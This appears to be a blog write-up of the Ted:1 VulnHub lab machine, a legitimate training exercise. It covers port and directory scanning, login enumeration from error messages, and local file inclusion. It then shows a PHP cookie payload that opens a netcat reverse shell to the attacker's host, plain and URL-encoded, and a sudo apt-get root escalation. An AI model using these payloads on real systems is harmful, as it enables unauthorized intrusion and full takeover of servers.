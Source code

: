 ```yaml
---
layout: post
title:  "Ted:1 Vulnhub Walkthrough"
date:   2020-09-24 15:00:00 +0530
categories: VulnHub CTF
---
```

Ted:1 is a machine in which I used Local File Inclusion Vulnerability to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with nmap

```
nmap -sV -sC 192.168.198.136
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 09:58 EDT
Nmap scan report for 192.168.198.136
Host is up (0.00077s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds

```
Port 80 is the only opened port.
## Web Enumeration
Then I enumerated directories and files using gobuster

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.136 -x html,php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php
[+] Timeout:        10s
===============================================================
2020/09/24 09:58:18 Starting gobuster
===============================================================
/index.php (Status: 200)
/home.php (Status: 302)
/logout.php (Status: 302)
/cookie.php (Status: 302)
/authenticate.php (Status: 302)
/server-status (Status: 403)
===============================================================
2020/09/24 09:59:06 Finished
===============================================================
```
An intersting file is cookie.php, although it didn't help me to get a shell but it gave me a hint about using cookie with LFI to gain a shell.
## Brute forcing
I found a login form in index.php, So I tried SQLmap to test for SQL injection but the form isn't vulnerable to it. 
Then, I started testing with inputs and error messages and it was fruitful. The error messages gave me hints about the the correct username and correct password then the correct hashing algorithm. You can see the diffrence below.

### Username guessing 
![Username](/assets/image/001/1.png)

### Password guessing 
![Password](/assets/image/001/2.png)

### Hashing Algorithm guessing
![Hash](/assets/image/001/3.png)

The correct username is admin and the correct password is hash sha256 of word admin


## Local File Inclusion
When I typed /etc/passwd it retrived the content of the file, so it's clearly a LFI vulnerability. 
![Hash](/assets/image/001/4.png)



After many attemps like reading /etc/shadow and Log poisoning via apache logs, I found a suspicous cookie. so I tried to change it's value and access /var/lib/php/sessions/sess_ via the browser and it worked!
![Hash](/assets/image/001/5.png)

Immediately  I changed the cookie value to 

```
<?php system("nc [ip] 9999 -e /bin/sh")?>
```

but URL encoded as 
```
%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%39%39%39%39%20%5b%69%70%5d%20%2d%65%20%2f%62%69%6e%2f%73%68%22%29%3f%3e
```
and started listening in my machine and refreshed the page. I got a shell!
```
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.198.137] from (UNKNOWN) [192.168.198.136] 57674
whoami
www-data
```

## Privilege Escalation
I ran sudo -l and noticed that I can run apt-get as a root without password (SUDO).

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

```

So imediatly I went to https://gtfobins.github.io/ and got the following command
which abuses the sudo priv given to the binary apt-get 

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
root
```
and voila here is the root privilege!




